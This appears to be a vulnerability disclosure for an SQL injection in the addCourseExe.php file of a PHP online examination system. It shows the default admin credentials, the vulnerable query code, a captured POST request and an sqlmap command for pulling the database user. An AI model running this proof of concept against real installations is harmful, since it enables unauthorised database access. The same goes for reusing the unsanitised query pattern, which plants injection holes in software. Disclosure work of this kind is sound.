

## Online Examination System With Timer

## SQL Injection on `addCourseExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/query/addCourseExe.php
```

The potential injection point is located in `addCourseExe.php`. This file directly utilizes the `$course_name`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# addCourseExe.php
extract($_POST);
$course_name = strtoupper($course_name);
$selCourse = $conn->query("SELECT * FROM course_tbl WHERE cou_name='$course_name' ");
if($selCourse->rowCount() > 0)
{
	$res = array("res" => "exist", "course_name" => $course_name);
}
else
{  
	$insCourse = $conn->query("INSERT INTO course_tbl(cou_name) VALUES('$course_name') ");
	if($insCourse)
	{
		$res = array("res" => "success", "course_name" => $course_name);
	}
	else
	{
		$res = array("res" => "failed", "course_name" => $course_name);
	}
}
```

### Proof of Concept:

**Burp Request:**

```
POST /adminpanel/admin/query/addCourseExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 44
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/adminpanel/admin/home.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

course_name=name
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql --no-cast
```

**Screenshot:**


